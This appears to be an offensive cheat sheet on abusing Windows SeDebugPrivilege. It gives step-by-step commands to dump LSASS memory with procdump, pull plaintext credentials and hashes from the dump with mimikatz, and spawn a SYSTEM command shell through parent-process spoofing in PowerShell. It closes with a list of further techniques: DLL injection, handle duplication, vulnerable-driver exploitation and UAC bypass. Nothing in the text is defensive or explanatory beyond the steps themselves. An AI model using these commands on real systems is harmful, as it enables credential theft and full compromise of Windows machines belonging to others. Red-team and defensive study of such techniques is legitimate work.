 

**1. Verify SeDebugPrivilege:**

- `whoami /priv`

**2. Dump LSASS:**

- `procdump.exe -accepteula -ma lsass.exe lsass.dmp`
- (Task Manager: Right-click lsass.exe -> Create dump file)

**3. Extract Credentials:**

- `mimikatz.exe`
- `sekurlsa::minidump lsass.dmp`
- `sekurlsa::logonpasswords`

**4. RCE as SYSTEM:**

- `[MyProcess]::CreateProcessFromParent(<PID>,"cmd.exe","")` (PowerShell)
- (Alternative tools: depends on the tool)




## **Tools:**

- **pypykatz:** For LSASS dump analysis on non-Windows systems.
- **Process Explorer (Sysinternals):** For detailed process information.
- **WinDbg:** For advanced process debugging and memory analysis.

## **Techniques:**

- **DLL Injection:** Injecting malicious code into privileged processes.
- **Handle Duplication:** Gaining access to privileged process resources.
- **Exploiting Vulnerable Drivers:** Leveraging `SeDebugPrivilege` to exploit kernel vulnerabilities.
- **Bypassing User Account Control (UAC):** Using UAC bypasses to get the initial elevated prompt, that is required by SeDebug.